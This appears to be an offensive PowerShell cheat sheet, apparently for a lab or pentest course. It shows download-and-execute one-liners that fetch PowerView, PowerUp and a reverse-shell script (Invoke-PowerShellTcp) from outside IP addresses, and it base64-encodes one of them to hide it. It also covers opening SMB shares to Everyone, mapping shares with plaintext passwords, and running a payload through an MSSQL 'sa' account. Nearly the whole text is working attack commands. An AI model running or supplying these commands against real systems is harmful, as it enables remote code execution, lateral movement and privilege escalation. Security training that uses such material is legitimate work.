 Load file reflectively:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.ps1')
```

Encode one-liner:

```powershell
$command = 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encodedCommand
```

## SMB Shares

Create a SMB share:

```powershell
# MACHINE: COMPUTER1
New-SmbShare -Name "SHARED_REPO" -Path "C:\Users\Public\" -FullAccess "CYBERLAB\STUDENT1"
Grant-SmbShareAccess -Name "SHARED_REPO" -AccountName "CYBERLAB\STUDENT2" -AccessRight Full
New-SmbShare -Name "SHARED_REPO" -Path "C:\Users\Public\" -FullAccess "Everyone"
```

Connect to a SMB share:

```powershell
# USER: CYBERLAB\STUDENT1
net use z: \\COMPUTER1\SHARED_REPO
net use z: \\COMPUTER1\SHARED_REPO /u:CYBERLAB\STUDENT01 Password123.
```

or:

```powershell
New-SmbMapping -LocalPath "x:" -RemotePath "\\COMPUTER1\SHARED_REPO" -Username "CYBERLAB\STUDENTI1" -Password "Password123."
```

## PowerShell WebServer

Start a web server on port 8080 in order to share files:

```powershell
# MACHINE: COMPUTER1
# Start-WebServer.ps1
.\Start-WebServer.ps1 "http://+:8080/"
```

Download a file from another machine:

```powershell
# MACHINE: COMPUTER 2
Invoke-WebRequest -Uri http://COMPUTER1:8080/file.ps1 -OutFile .\file.ps1
iex (New-Object Net.WebClient).DownloadString('http://COMPUTER1:8080/PowerUp.ps1');
Invoke-AllChecks

# It can be even used from an MSSQL instance
Execute-Command-MSSQL -UserName 'sa' -Password 'Password' -ComputerName 'MSSQLSERVER01' -payload "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.10:8080/PowerUp.ps1'); Invoke-AllChecks"
```
